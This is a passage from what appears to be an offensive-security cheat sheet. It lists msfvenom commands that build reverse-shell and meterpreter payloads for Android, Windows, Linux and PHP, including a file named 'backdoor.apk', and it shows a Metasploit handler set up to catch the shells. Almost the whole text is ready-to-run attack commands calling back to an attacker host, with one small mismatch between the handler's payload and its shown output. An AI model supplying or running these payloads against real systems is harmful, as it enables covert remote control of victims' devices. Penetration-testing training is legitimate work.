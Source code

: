 ### 6. Android APK Payload
``` bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 R > shell.apk
```
## 📌 Handlers (Catching the Shell)
When you generate a payload with msfvenom, you need a listener (handler).
**Start Handler**
``` bash
msfconsole
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.0.2.19
set LPORT 7777
run
```
Output:
``` bash
[*] Started reverse TCP handler on 10.0.2.19:7777
[*] Meterpreter session opened
```
## 📌 Quick Examples
- Windows exe Meterpreter
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=5555 -f exe > win_shell.exe
```
- Linux ELF shell
``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.0.1 LPORT=5555 -f elf > linux_shell.elf
```
- PHP shell
``` bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=5555 -f raw > shell.php
```
- Android APK
``` bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=5555 R > backdoor.apk
```
## 🧠 Key Points
- Always set LHOST = Attacker IP, LPORT = Listening Port.
- Choose correct format for target OS (exe = Windows, elf = Linux, apk = Android, php = webservers).
- Use multi/handler in Metasploit to catch the shell.
- Encoders only obfuscate payloads, not guaranteed AV bypass.
